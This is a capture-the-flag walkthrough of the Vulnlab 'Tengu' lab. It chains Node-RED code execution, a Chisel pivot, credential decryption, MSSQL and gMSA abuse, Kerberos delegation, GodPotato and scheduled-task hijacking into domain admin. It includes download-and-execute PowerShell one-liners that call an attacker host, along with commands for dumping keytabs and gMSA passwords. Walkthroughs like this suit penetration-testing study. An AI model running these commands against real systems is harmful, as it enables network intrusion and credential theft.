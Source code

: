 ```yaml
---
title: VL - Tengu
date: 2024-04-1
categories: [Vulnlab]
tags: [CTF, Windows, Chain, Linux]
pin: true
---
```


## Initial Access
On 10.10.193.119 is a web service running named Node-RED on port 1880 which does not require authentication. We can make a flow which executes a reverse shell on the target system:
```
Inject/Timestamp -> Exec (enter your rev shell in this block) -> debug
```

Save the flow and press the button on the left of the timestamp to execute.

## Internal enumeration
Since almost all ports where closed from the outside we can try to scan from the inside to discover what is running and where. We can start a reverse forward with Chisel:
```
// On target
./chisel_linux client <VPN-IP>:8001 R:1080:socks &
​
// On AttackerBox
chisel server -p 8001 --reverse
```
Since scanning through ProxyChains is a pain in the bum we can transfer a static NMAP over and scan from our first compromised machine which reveals:
```
10.10.193.117:
Not shown: 1146 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos
135/tcp  open  epmap
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd
593/tcp  open  unknown
636/tcp  open  ldaps
3389/tcp open  ms-wbt-server
​
10.10.193.118:
Not shown: 1153 filtered ports
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

It is pretty save to assume that .117 is the domain controller. There is also a service running on port 631 listening on 127.0.0.1 if we forward this we see that it is.
In nodered_svc home directory is a hidden folder for node-red which has a hash in flows_cred.json.
```
"$": "7f5ab122acc2c24df1250a30<redacted>"
```
After searching around how the red node works and how it handles credentials i stumbled against ​[extract nodered creds](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/).
By following the steps in the blogpost we can decrypt the password used for mssql.
```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppy<redacted>"}}
```

## MSSQL user
Since we have credentials we can use our proxy to log into the mssql server:
```
proxychains mssqlclient.py nodered_connector:DreamPuppy<redacted>@10.10.193.118 
```
We have low privileges and can not enable xp_cmdshell to execute system commands. We can check if there are any other databases available:
```
SELECT name FROM master.dbo.sysdatabases;
SELECT * FROM Demo.INFORMATION_SCHEMA.TABLEs;
SELECT * FROM Users;
```
These commands reveals a hash for the user:
```
t2_m.winters:af9cfa9b70e5e90984203087e5<redacted>
```
By throwing this into crackstation we get a password back, we can ssh with these credentials into the first machine we got access to:
```
ssh tengu.vl\\t2_m.winters@10.10.193.119
```

We can simply sudo su and become root. With these same credentials we can run Bloodhound to gather more information:
```
proxychains bloodhound-python -d tengu.vl -c All -dc dc.tengu.vl -ns tengu.vl -u t2_m.winters -p <Password> --zip
```
The interesting path that bloodhound reveals is:
- The NodeRed machine can read GMSA password
- Allowed to delegate from the GMSA01$ user which we can dump to the SQL server

## SQL Server
Since we are root now we can use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to dump the hash of the machine account, there are multiple tools doing basically the same but this one was the only one that i found without a pip install requirement.
```
python3 keytabextract.py /etc/krb5.keytab
```
We can then use the NTLM hash to dump the GMSA:
```
proxychains netexec ldap dc.tengu.vl -u 'NODERED$' -H <hash> --gmsa
```
With the hash we can start abusing the delegate to the SQL server , we first have to request a ticket for the MSSQLSvc but the user has to be part of the SQL Admins group:
```
proxychains impacket-getST -dc-ip dc.tengu.vl -spn MSSQLSvc/sql.tengu.vl 'tengu.vl/gMSA01$:@sql.tengu.vl' -hashes :8b038ae130a27269ce19d11a8ab1be89  -impersonate 'T1_M.WINTERS'
```
We can now import the ticket:
```
export KRB5CCNAME=T1_M.WINTERS.ccache
```
And login into the SQL server:
```
proxychains mssqlclient.py -k sql.tengu.vl
```
As SQL Admins we can enable xp_cmdshell and execute our reverse shell due to the length limitation of 128 chars we have to retrieve it remotely:

```
enable_xp_cmdshell
xp_cmdshell echo IEX(New-Object Net.WebClient).DownloadString("http://<VPN>:8000/s.ps1") | powershell -noprofile
```
We now have a shell, when checking the privs of the user:
```
PRIVILEGES INFORMATION ----------------------  Privilege Name                Description                               State    ============================= ========================================= ======== 
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled 
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled 
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled  
SeImpersonatePrivilege        Impersonate a client after authentication Enabled  
SeCreateGlobalPrivilege       Create global objects                     Enabled  
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

With these privileges we can use god potato and get a shell as SYSTEM:
```
./god.exe -cmd "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<VPN>:8000/s.ps1');"
```

## Domain Admin
In C:\ there is a directory named admin which has a powershell script running. When we retrieve the owner of the file:
```
Get-Acl Task.ps1 | Select-Object Owner
```
We notice that a domain admin is the owner of it. By enumerating a bit more we can find a scheduled task for this file:
```
Get-ScheduledTask
```
We can now simply change the content of  Task.ps1 and force the task execution:
```
wget http://<VPN>:8000/s.ps1 -o Task.ps1
type Task.ps1
Start-ScheduledTask -TaskName Daily_Checkup
```
Now with a shell back as the DA we can simply log into the DC and get the last flag.